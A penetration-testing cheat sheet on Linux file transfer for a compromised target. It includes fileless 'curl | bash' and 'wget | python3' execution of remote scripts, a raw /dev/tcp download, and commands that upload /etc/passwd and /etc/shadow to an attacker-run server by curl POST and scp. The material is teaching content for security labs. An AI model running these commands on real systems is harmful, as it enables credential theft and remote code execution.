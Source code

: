 ## Linux File Transfer Methods

## Base64 Encoding / Decoding

#### Check File MD5 hash

```shell-session
$ md5sum file_to_transfer
```


#### Attacker machine - Encode SSH Key to Base64

```shell-session
$ cat file_to_transfer |base64 -w 0;echo
```


#### Target - Decode the File

```shell-session
$ echo -n '<snippet>' | base64 -d > file_to_transfer
```

#### Target - Confirm the MD5 Hashes Match

```shell-session
$ md5sum file_to_transfer
```

**Note:** You can also upload files using the reverse operation. From your compromised target cat and base64 encode a file and decode it in your Pwnbox.

## Web Downloads with Wget and cURL

#### Download a File Using wget

```shell-session
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### Download a File Using cURL

```shell-session
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

* * *

## Fileless Attacks Using Linux

#### Fileless Download with cURL

```shell-session
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless Download with wget

```shell-session
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

* * *

## Download with Bash (/dev/tcp)

#### Connect to the Target Webserver

```shell-session
$ exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request

```shell-session
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```shell-session
$ cat <&3
```

* * *

## SSH Downloads

#### Enabling the SSH Server

```shell-session
$ sudo systemctl enable ssh
```

#### Starting the SSH Server

```shell-session
$ sudo systemctl start ssh
```

#### Checking for SSH Listening Port

```shell-session
$ netstat -lnpt
```

#### Target - Downloading Files Using SCP

```shell-session
$ scp plaintext@192.168.49.128:/root/myroot.txt .
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

* * *

## Upload Operations


## Web Upload

#### Attacker - Start Web Server

```shell-session
$ sudo python3 -m pip install --user uploadserver
```


#### Attacker - Create a Self-Signed Certificate

```shell-session
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```


#### Attacker - Start Web Server

```shell-session
$ mkdir https && cd https
```

```shell-session
$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

#### Target - Upload Multiple Files

```shell-session
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.

* * *

## Alternative Web File Transfer Method

#### Target - Creating a Web Server with Python3

```shell-session
$ python3 -m http.server
```

#### Target - Creating a Web Server with Python2.7

```shell-session
$ python2.7 -m SimpleHTTPServer
```

#### Target - Creating a Web Server with PHP

```shell-session
$ php -S 0.0.0.0:8000
```

#### Target - Creating a Web Server with Ruby

```shell-session
$ ruby -run -ehttpd . -p8000
```

#### Download the File from the Target Machine onto the Attacker

```shell-session
$ wget 192.168.49.128:8000/filetotransfer.txt
```

**Note:** When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.

* * *

## SCP Upload

#### File Upload using SCP

```shell-session
$ scp /etc/passwd username@10.129.86.90:/home/username/
```

**Note:** Remember that scp syntax is similar to cp or copy.

* * *